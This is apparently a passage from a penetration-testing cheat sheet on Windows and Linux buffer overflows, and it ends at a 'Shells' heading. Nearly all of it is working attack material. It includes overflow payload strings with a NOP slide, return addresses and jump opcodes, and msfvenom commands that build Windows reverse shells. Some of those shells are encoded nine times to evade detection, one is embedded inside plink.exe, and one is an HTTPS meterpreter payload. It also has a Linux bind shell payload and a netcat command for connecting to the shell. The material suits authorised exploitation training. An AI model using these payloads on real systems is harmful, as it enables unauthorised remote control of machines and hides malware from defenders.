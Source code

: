     -   Final Payload with NOP slide

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    -   Create a PE Reverse Shell
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe

    -   Create a PE reverse shell and embed it into an existing
        executable
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

    -   Create a PE Reverse HTTPS shell
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer
        add eax,12
        jmp eax
        83C00C add eax,byte +0xc
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:
        nc -v $ip 4444

Shells
===================================================================================================================================

-   Netcat Shell Listener
